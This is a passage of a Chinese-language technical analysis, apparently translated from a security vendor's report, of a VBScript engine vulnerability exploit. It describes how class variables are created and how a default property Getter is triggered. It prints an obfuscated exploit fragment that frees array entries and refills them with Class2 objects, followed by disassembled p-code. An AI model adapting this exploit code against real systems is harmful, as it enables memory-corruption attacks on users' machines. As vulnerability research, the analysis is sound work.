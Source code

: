 函数34是’Class1’类的构造函数。

OP_CreateClass指令调用VBScriptClass::Create函数来创建VBScriptClass对象。

OP_FnBindEx和OP_CreateVar指令尝试获取参数中传递的变量，由于它们尚不存在，因此它们由VBScriptClass::CreateVar函数创建。

下图显示了如何从VBScriptClass对象中获取变量，其中变量的值存储在VVAL结构中：[![](https://media.kasperskycontenthub.com/wp-content/uploads/sites/43/2018/07/02153031/180702-vbscript-2.png)](https://media.kasperskycontenthub.com/wp-content/uploads/sites/43/2018/07/02153031/180702-vbscript-2.png)

想要了解漏洞的利用方法，则需要先了解变量在VBScriptClass结构中的表示方式。

当在函数36(‘SetProp’)中执行OP_NamedSt ‘mem’指令时，它会调用先前堆叠的类的实例的默认属性Getter，然后将返回的值存储在变量’mem’中。

***BOS(8292,8301)*** mem=Value *****<br>
0000OP_Bos1 0<br>
0002OP_LocalAdr -1 &lt;————将参数置于堆栈<br>
0005OP_NamedSt’mem’&lt;———- – 如果它是具有默认属性Getter的类调度程序，则在**mem**中调用并存储返回的值

下面是在执行OP_NamedSt指令期间调用的30(p)函数的代码和反汇编的p代码：

```
Class lllIIl
Public Default Property Get P
Dim llII
P=CDbl(“174088534690791e-324”)
For IIIl=0 To 6
    IIIlI(IIIl)=0
Next
Set llII=New Class2
llII.mem=lIlIIl
For IIIl=0 To 6
    Set IIIlI(IIIl)=llII
Next
End Property
End Class
```

```
Function 30 (‘p’) [max stack = 3]:
        arg count = 0
        lcl count = 1
            lcl   1 =     Variant    ‘llII’
        tmp count = 4
Pcode:
        ***BOS(8626,8656)*** P=CDbl(“174088534690791e-324”) *****
        0000    OP_Bos1          0
        0002    OP_StrConst      ‘174088534690791e-324’
        0007    OP_CallNmdAdr    ‘CDbl’ 1
        000E    OP_LocalSt       0
        ***BOS(8763,8782)*** For IIIl=(0) To (6) *****
        0011    OP_Bos1          1
        0013    OP_IntConst      0
        0015    OP_IntConst      6
        0017    OP_IntConst      1
        0019    OP_ForInitNamed  ‘IIIl’ 5 4
        0022    OP_JccFalse      0047
        ***BOS(8809,8824)*** IIIlI(IIIl)=(0) *****
        0027    OP_Bos1          2
        0029    OP_IntConst      0
        002B    OP_NamedAdr      ‘IIIl’
        0030    OP_CallNmdSt     ‘IIIlI’ 1
        ***BOS(8826,8830)*** Next *****
        0037    OP_Bos1          3
        0039    OP_ForNextNamed  ‘IIIl’ 5 4
        0042    OP_JccTrue       0027
        ***BOS(8855,8874)*** Set llII=New Class2 *****
        0047    OP_Bos1          4
```